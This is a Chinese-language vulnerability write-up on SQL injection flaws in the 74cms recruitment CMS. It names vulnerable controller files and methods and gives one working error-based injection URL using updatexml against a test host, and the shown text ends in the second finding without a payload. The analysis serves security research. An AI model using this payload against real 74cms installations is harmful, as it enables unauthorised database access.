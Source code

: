 ## 0x04 74cms独有框架漏洞第一处

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。

登录后台

![](images/15889213123167.png)


注册完成以后登录前台即可

如果不登录的话，会显示这个样子

`url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus`

![](images/15889213278439.png)


`http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a`

![](images/15889213407267.png)


看源码

![](images/15889213504002.png)


打开文件： `74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php`

方法：`add_focus(`

![](images/15889213663947.png)


## 0x05 74cms独有框架漏洞第二处

文件：`74cms\upload\Application\Home\Controller\CompanyServiceController.class.php`

方法：`order_pay_finish(`

是否需登录：需要

登录权限：企业用户即可

看源码

![](images/15889214024597.png)


为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。
